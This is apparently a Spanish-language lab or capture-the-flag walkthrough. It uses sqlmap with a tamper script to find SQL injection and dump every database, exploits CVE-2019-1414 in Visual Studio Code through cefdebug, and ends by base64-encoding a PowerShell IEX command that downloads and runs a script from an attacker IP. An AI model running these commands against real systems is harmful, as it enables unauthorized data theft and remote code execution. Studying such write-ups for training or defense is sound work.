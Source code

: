 ![[Pasted image 20230727105759.png]]

Hacer este tipo de SQLi manualmente es un dolor de cabeza ya que tienes que codificar muchas cosas, por lo que lo mejor que puedes hacer es guardar el request y pasárselo a `sqlmap`:

```shell
sqlmap -r req.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080
```

Si nos detecta cosas vulnerables pasaremos con el siguiente comando:

```shell
sqlmap -r req.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dbs
```

Esto nos reportará las bases de datos, las cuales con el siguiente comando podemos ver su contenido:

```shell
sqlmap -r req.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dump-all --exclude-sysdbs
```

## Visual Studio Code 1.37.1

Esta versión de visual studio code es vulnerable a elevar privilegios por este cve: CVE-2019-1414. Podemos usar [cefdegub](https://github.com/taviso/cefdebug) para explotarlo:

```powershell
.\cefdebug.exe
cefdebug.exe
: [2023/07/27 07:35:02:3572] U: There are 7 tcp sockets in state listen.
[2023/07/27 07:35:22:4193] U: There were 4 servers that appear to be CEF debuggers.
[2023/07/27 07:35:22:4193] U: ws://127.0.0.1:7768/946cac74-7dc8-493f-99c0-e78a826d52ba
[2023/07/27 07:35:22:4193] U: ws://127.0.0.1:1768/b89c850f-c190-4d0b-b53b-cc98640b208e
[2023/07/27 07:35:22:4193] U: ws://127.0.0.1:29064/6acebffa-f0f1-4da4-ac6c-fa68a555d7ea
[2023/07/27 07:35:22:4193] U: ws://127.0.0.1:21239/cbbb57ff-0cad-40e5-a974-990a6c330608
```

En este caso podemos ver que nos detecta servidores abiertos. En el PoC se nos muestra que podemos a llegar ejecutar comandos como el usuario que este ejecutando code, así que sigamos las instrucciones del PoC:

```powershell
.\cefdebug.exe --url  ws://127.0.0.1:18283/8e7cea4c-1dec-4f4a-a60d-bd68b4c7940b --code "process.version"
```

Si esto nos reporta una versión, podemos colarle un comando. Pero antes, encodearemos el comando en base 64:

```shell
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/PS.ps1')" | iconv -t utf-16le | base64 -w 0
```
